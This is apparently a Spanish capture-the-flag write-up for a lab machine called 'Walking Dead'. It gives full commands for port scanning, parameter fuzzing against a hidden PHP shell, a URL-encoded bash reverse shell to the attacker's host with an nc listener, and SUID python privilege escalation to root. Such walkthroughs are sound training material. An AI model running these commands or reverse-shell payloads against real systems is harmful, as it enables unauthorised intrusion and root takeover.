






# Walking Dead - Writeup

## Resumen
Máquina en la cual entraremos a un subdirectorio oculto mediante inspección del código fuente, tendremos que fuzzear parámetros vulnerables para acceder al sistema y explotar binarios SUID para ganar acceso root.

## Paso N1: Reconocimiento
Empezamos escaneando los puertos TCP con sus respectivos servicios y versiones.
```
nmap 172.17.0.2 -sS -sVC -n -Pn -p- --open --min-rate 5000 -oG open_ports
```


Veremos que están abiertos los puertos 22 y 80 correspondientes a ssh y http respectivamente.

## Paso N2: Visualización web
Una vez dentro de la página, si la inspeccionamos (o vemos su código fuente) encontraremos la siguiente línea 
```
<a href="hidden/.shell.php">Access Panel</a>
```


Dejándonos el subdirectorio oculto `/hidden/.shell.php`, y una vez dentro, veremos que no hay contenido alguno.

## Paso N3: Intrusión mediante parámetro vulnerable
Una vez dentro de la página, no veremos mucha cosa más, por lo que empezaremos a fuzzear parámetros vulnerables con wfuzz
```
wfuzz -c -w /usr/share/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt --hw 0 -u 'http://172.17.0.2/hidden/.shell.php?FUZZ=id'
```


Encontramos el parámetro vulnerable `cmd`, por lo que si encodeamos a url `bash -c 'bash -i >& /dev/tcp/172.17.0.1/443 0>&1'`, escuchamos en una terminal en el puerto 443 con `nc -lvnp 443` y ponemos de comando la reverse shell encodeada a url habremos obtenido acceso al sistema 
```
http://172.17.0.2/hidden/.shell.php?cmd=bash%20-c%20%27bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F172.17.0.1%2F443%200%3E%261%27%0A
```


## Paso N4: Escalando privilegios
Una vez dentro, estabilizaremos la terminal con 
```
script /dev/null -c bash
export TERM=xterm
```
y buscaremos binarios SUID vulnerables con `find / -perm -4000 2>/dev/null`


Veremos el binario `/usr/bin/python3.8`, que si buscamos en [GTFobins](https://gtfobins.org/gtfobins/python/#shell) veremos que podemos explotarlo en este caso usando 
```
python3.8 -c 'import os; os.execl("/bin/sh", "sh", "-p")'
```
Y una vez ejecutado habremos ganado acceso a usuario root

